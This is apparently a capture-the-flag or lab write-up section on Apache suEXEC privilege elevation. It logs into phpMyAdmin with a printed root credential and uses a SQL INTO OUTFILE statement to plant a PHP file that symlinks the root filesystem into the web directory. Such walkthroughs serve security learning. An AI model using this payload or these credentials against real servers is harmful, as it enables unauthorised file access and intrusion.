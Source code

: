 # Bonus - apache suEXEC 1

[Apache suEXEC privilege elevation](https://www.exploit-db.com/exploits/27397)

We start by navigating to `http://IP/phpmyadmin` using the previously obtained credentials: `root:Fg-'kKXBj87E:aJ$`. Next, we perform an SQL injection based on the information in the article, using a table with two columns:

``` sql
SELECT 1, '<?php symlink(\"/\", \"files.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/exec.php'
```

We trigger the exploit by accessing the `exec.php` file, then open `https://IP/forum/templates_c/files.php` to view the filesystem. From there, we proceed with the standard enumeration as outlined in Writeup 1—home, lookatme, password.

